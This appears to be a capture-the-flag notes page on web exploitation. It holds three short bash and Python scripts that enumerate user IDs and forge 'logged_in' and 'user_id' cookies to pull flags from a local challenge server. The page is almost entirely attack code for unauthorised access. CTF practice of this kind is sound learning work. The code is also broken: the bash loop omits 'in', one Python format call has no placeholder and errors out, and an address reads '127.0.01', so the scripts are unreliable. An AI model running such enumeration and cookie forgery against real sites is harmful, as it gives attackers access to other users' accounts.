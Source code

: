 # Web Exploitation

Bash script to find a flag on each user's page
```
for i {1..100}
do
curl http://localhost:8080/users/$i | grep Flag{
done
```

Try different user ID and find a flag
```
import requests

for i in range(1,100):
    R = requests.get("http://127.0.0.1/users/$i" % i)

    if "Nope" not in R.text:
        print(i)
        print(R.text)
        exit()
```

Try different cookies and find a flag
```
import requests

for i in range(1,100):

    C = {"logged_in": "true", "user_id":str(i)}
    R = requests.get("http://127.0.01:8080",cookies=C)

    if "Flag{" in R.text:
        print(i)
        print(R.text)
        exit()
```
